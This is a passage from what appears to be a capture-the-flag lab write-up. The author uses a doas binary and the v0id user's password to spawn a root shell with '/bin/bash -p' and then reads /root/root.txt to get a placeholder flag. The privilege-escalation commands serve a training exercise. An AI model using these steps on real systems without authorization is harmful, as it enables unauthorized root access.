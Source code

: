 That [`doas`](https://wiki.gentoo.org/wiki/Doas) command looks interesting. It looks like I can use it to run a command as another user. Similar to what sudo does.  I can run using v0id password. 

```bash
v0id@ubuntu:~$ /usr/local/bin/doas -uroot ls
Password: 
```

So I used it to launch `/bin/bash` as root. I could then print the root flag and finish the room.

```bash
v0id@ubuntu:~$ /usr/local/bin/doas -uroot /bin/bash -p
Password: 

root@ubuntu:/home/v0id# whoami
root

root@ubuntu:/home/v0id# cat /root/root.txt 
THM{ROOT_FLAG}
```

